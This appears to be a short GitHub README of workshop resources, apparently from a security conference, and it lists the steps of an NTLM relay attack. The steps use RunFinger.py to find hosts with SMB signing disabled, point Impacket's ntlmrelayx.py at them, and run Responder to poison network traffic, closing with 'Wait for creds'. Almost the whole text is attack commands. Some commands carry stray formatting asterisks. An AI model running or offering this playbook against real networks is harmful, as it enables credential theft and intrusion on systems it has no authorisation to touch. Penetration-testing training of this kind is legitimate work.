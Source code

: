 # DojoConf-Recursos

comando de Busqueda herramientas:
```
find /usr/share/responder/ -name "error.log" -print
```

1. Identify network systems that do not require SMB message validation
```
Run python  **RunFinger.py -i IP_Range** to detect machine with SMB signing:disabled.
```
2. Configure Impacket’s NTLMrelayx to target those systems
```
echo "IP"  >> targets.txt**
 ```   
 ```
 ntlmrelayx.py -tf targets.txt --smb2support**
 ```
3. Disable SMB and HTTP response poisoning in Responder and launch
```
cd /usr/share/responder
```
```
gedit Responder.conf
```
4. Open the Responder.conf file and set the value of SMB and HTTP to Off
```
Responder.py** -I eth0 -rdw
```
5. Wait for creds

